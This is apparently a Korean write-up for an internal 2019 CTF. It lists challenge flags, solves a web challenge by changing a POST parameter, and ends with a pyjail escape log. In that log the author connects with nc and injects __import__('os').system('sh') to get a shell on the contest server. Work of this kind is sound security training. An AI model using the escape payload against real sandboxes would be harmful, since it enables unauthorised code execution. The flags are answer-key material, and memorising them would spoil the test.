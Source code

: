 # A0V3R Internal CTF 2019 - 자라 (3st, 11686)
프라푸치노좋아그런데비싸그래서많이못먹어그래서슬퍼

## Verification

`8zKe=X^zASF+5t8g`

## Mic Check

`A0V3R{TH1S_I$_MICCH3CK}`

## Warning
```js
$("#button").click(function() {
	$.ajax({
		url: 'warning_check.php',
		type: 'post',
		data: { 'data':1 },
		success: function(result) {
			if(result != 'Don\'t Touch Me') { $("body").addClass("green-bg"); }
			alert(result);
		}
	})
});
```

`data`에 0이 아닌 1을 넣고 보내면 플래그를 준다.

`A0V3R{ST@aT_W3B_H@Ak}`

## pyjail
```
 junhoyeo@juno-4  ~  nc 45.32.254.239 7777

devonnuri : Hello Team A0V3R Members
devonnuri : I've got stuck in this jail... plz help me
devonnuri : To escape from here I need 'key'
devonnuri : But I think the key won't be able to get by normal way..
Search > __import__('os')
Result > <module 'os' from '/usr/lib/python2.7/os.pyc'>

Me : It would be helpful!
 junhoyeo@juno-4  ~  nc 45.32.254.239 7777

devonnuri : Hello Team A0V3R Members
devonnuri : I've got stuck in this jail... plz help me
devonnuri : To escape from here I need 'key'
devonnuri : But I think the key won't be able to get by normal way..
Search > __import__('os').system('sh')

pwd 
/
cd home
ls
basic_overflow
dupbob
flag_reader
misc
note
penguin
pyjail
retchall
```